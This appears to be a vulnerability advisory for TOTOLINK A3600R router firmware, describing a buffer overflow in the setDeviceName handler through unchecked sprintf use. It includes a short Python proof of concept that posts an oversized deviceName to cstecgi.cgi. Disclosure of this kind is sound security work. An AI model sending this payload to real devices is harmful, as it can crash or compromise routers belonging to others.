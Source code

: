 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setDeviceName` function. The `v6, v7` variable receives the `deviceMac, deviceName` parameter from a POST request. However, since the user can control the input of `deviceMac, deviceName`, the statement `sprintf` can cause a buffer overflow injection vulnerability.

![image-20240721000247869](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721000247869.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"deviceName":"a"*0x1000, "topicurl":"setting/setDeviceName"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721000550783](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721000550783.png)
